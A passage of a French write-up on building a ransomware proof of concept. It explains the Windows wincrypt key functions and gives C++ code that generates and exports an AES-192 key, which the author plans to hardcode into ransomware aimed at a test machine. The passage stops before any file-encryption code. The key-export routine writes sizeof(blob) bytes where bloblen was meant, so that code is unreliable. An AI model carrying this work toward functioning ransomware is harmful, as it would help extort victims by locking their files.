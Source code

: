 # Le service d'encryption

Le coeur de notre ransomware PoC reste son service d'encryption. Pour cet aspect, Microsoft met à notre disposition la librairie wincrypt, inclue dans le set API Windows (https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptacquirecontexta). Celle-ci sera supposément bientôt dépréciée, et remplacée par le standard CNG (https://docs.microsoft.com/en-us/windows/win32/seccng/cng-portal et https://docs.microsoft.com/fr-fr/windows/win32/seccng/encrypting-data-with-cng), mais en attendant, nous nous en contenterons.

## La gestion cryptographique avec l'API Windows ; théorie

Le trio de fonctions le plus importantes restent :

### CryptAcquireContextA

Qui nous permet l'acquisition d'une handle vers le container de clé d'un fournisseur de services cryptographiques (CSP selon la doc Microsoft). Cette handle sera ré-utilisée par les autres fonctions de wincrypt.

```cpp
BOOL CryptAcquireContextA(
  [out] HCRYPTPROV *phProv,
  [in]  LPCSTR     szContainer,
  [in]  LPCSTR     szProvider,
  [in]  DWORD      dwProvType,
  [in]  DWORD      dwFlags
);
```

### CryptGenKey

Qui permet la génération de notre clé.

```cpp
BOOL CryptGenKey(
  [in]  HCRYPTPROV hProv,
  [in]  ALG_ID     Algid,
  [in]  DWORD      dwFlags,
  [out] HCRYPTKEY  *phKey
);
```

### CryptExportKey

Export de la clé. Utilisé deux fois, d'abord pour calculer la longueur de notre futur "blob", puis pour remplir celui-ci avec une structure de type PLAINTEXTKEYBLOB, avec entre les deux un petit malloc à notre blob en utilisant la longueur du blob calculée la première fois.

La fonction :
```cpp
BOOL CryptExportKey(
  [in]      HCRYPTKEY hKey,
  [in]      HCRYPTKEY hExpKey,
  [in]      DWORD     dwBlobType,
  [in]      DWORD     dwFlags,
  [out]     BYTE      *pbData,
  [in, out] DWORD     *pdwDataLen
);
```

La structure en question. Pour une clé AES-192, notre blob fera donc un total de 36 bytes

```cpp
typedef struct _PLAINTEXTKEYBLOB {
  BLOBHEADER hdr;
  DWORD      dwKeySize;
  BYTE       rgbKeyData[];
} PLAINTEXTKEYBLOB, *PPLAINTEXTKEYBLOB;
```

## La gestion cryptographique avec l'API Windows : pratique.

Voilà donc à quoi ressemble notre code final pour la génération de clé


```cpp
  int genkey(){

  HCRYPTPROV prov = NULL;
  HCRYPTKEY clé = NULL;
  DWORD bloblen = 0;
  BYTE* blob;
  bool ok;

  if (CryptAcquireContextW(&prov, 0, 0, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {

    std::cout << "Context acquired" << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Failure to acquire context" << d << std::endl;
    return -1;
  }

  if (CryptGenKey(prov, CALG_AES_192, 0x00C00000 | CRYPT_EXPORTABLE, &clé)) {
    std::cout << "Key Generated : " << clé << std::endl;

  }
  else {
    DWORD d = GetLastError();
    std::cout << "Failure to generate key, error code : " << d << std::endl;
    CryptDestroyKey(clé);
    CryptReleaseContext(prov, 0);
    return -1;

  }


  if (CryptExportKey(clé, 0, PLAINTEXTKEYBLOB, 0, NULL, &bloblen)) {

    std::cout << "Size of the blob determined : " << bloblen << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Error calculating the length, error code : " << d << std::endl;
    return -1;
  }

  if (blob = (BYTE*)malloc(bloblen)) {

    std::cout << "Memory has been allocated to the blob :" << sizeof(blob) << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Out of memory, error code : " << d << std::endl;
    return -1;
  }
  
  ok = CryptExportKey(clé, 0, PLAINTEXTKEYBLOB, 0, blob, &bloblen);

  if (ok == FALSE) {

    DWORD d = GetLastError();
    std::cout << "Error exporting key, error code : " << d << std::endl;
    free(blob);
    return -1;
  }
  else {
    std::cout << "Content written to the blob" << std::endl;
    std::cout << "Here's the raw blob value :" << blob << std::endl;

    std::ofstream bytefile("byte.txt",std::ios::binary);
    bytefile.write((const char*)blob,sizeof(blob));
    bytefile.close();

  }

return 0;
}
  ```

  Une fois celle-ci créée, elle peut être ré-importée (dans notre cas sous la forme d'un array de bytes hardcodé) lorsque le ransomware s'exécutera sur la machine de test cible via la fonction CryptImportKey (qui requiert un CSP valide, et donc l'exécution locale de CryptAcquireContextW au préalable) :

```cpp
BOOL CryptImportKey(
  [in]  HCRYPTPROV hProv,
  [in]  const BYTE *pbData,
  [in]  DWORD      dwDataLen,
  [in]  HCRYPTKEY  hPubKey,
  [in]  DWORD      dwFlags,
  [out] HCRYPTKEY  *phKey
);
```

## L'encryption des fichiers avec une clé : théorie

L'idée reste simple, en utilisant la fonction ReadFile, qui ouvre une handle vers un fichier spécifique (en le créant au passage si il n'existe pas et que le paramètre approprié est précisé)